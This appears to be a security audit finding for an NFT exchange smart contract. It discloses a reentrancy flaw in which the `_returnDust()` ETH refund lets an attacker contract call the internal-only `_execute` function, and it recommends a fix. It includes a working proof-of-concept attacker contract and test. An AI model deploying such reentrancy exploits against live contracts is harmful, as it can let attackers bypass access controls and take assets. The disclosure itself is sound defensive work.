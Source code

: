 # Reentrancy attack can be used to externally call the `_execute` function in the Exchange contract

The `_execute` function present in the Exchange contract is intended to be called only internally using `delegatecall` by the `execute` and `bulkExecute` functions. This is achieved by keeping track of the `isInternal` variable and using the `internalCall` modifier. However, it is possible to execute a reentrancy attack and call the `_execute` function directly from the outside.

## Impact

The `_returnDust()` function returns control to the caller by sending ETH and can be used to reenter the contract and call the `_execute` function. 

Note that, when `_returnDust()` is called, we are in the middle of the `execute` or `bulkExecute` call. This means that the value for the `isInternal` variable is still true. This allows us to bypass the `internalCall` modifier and access the `_execute` function externally, as shown in the following PoC.

Although such an attack is possible, I couldn't find any other side effect that could lead to stolen funds or NFTs. I'm assigning this issue a medium severity, feel free to discuss this, but at least I wanted to report the issue, that may eventually lead to a higher impact.

## PoC

Here Alice wants to sell an NFT for 1 ETH. Using the ReentrancyBuyer contract, we first send a modified payload that we know will fail on purpose to the `bulkExecute` function, which will return control to the calling contract when the `_returnDust()` function is executed. While this happens, we get the callback in the `receive` function and execute a **direct** call to the `_execute` function.

```
it('can bypass internal check and call _execute directly', async function() {
  const reentrancyContract = (await simpleDeploy('ReentrancyBuyer', [exchange.address])) as any;
  const price = ethers.utils.parseEther("1");
  
  sell = generateOrder(alice, {
    side: Side.Sell,
    tokenId,
    paymentToken: ethers.constants.AddressZero,
    price,
    fees: [],
  });
  
  buy = generateOrder(reentrancyContract, {
    side: Side.Buy,
    tokenId,
    price,
    paymentToken: ethers.constants.AddressZero,
    fees: [],
  });
  
  sellInput = await sell.pack();
  buyInput = await buy.packNoSigs();
  const executions = [{ sell: sellInput, buy: buyInput }];

  await waitForTx(
    reentrancyContract.startReentracy(executions, { value: price })
  );
  
  // The reentrancy call to _execute worked since we bought the NFT
  expect(await mockERC721.balanceOf(reentrancyContract.address)).to.eq(1);
});
```

The ReentrancyBuyer contract:

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "../Exchange.sol";
import "../lib/OrderStructs.sol";

contract ReentrancyBuyer is IERC721Receiver {
    Exchange private immutable exchange;
    
    Input sell;
    Input buy;

    constructor(Exchange _exchange) {
        exchange = _exchange;
    }

    function startReentracy(Execution[] calldata executions) external payable {
        sell = executions[0].sell;
        buy = executions[0].buy;
        
        Execution[] memory executionsCopy = executions;
        
        // change something to make the order fail on purpose
        executionsCopy[0].buy.order.collection = address(0);
        
        // send just 1 wei to trigger the refund
        exchange.bulkExecute{value: msg.value}(executionsCopy);
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }

    receive() external payable {
        // here call the _execute function directly
        exchange._execute{value: address(this).balance}(sell, buy);
    }
}
```

## Recommendation

Move the `nonReentrant` modifier to the `execute` and `bulkExecute` functions. This way the whole call will be protected against reentrancy.
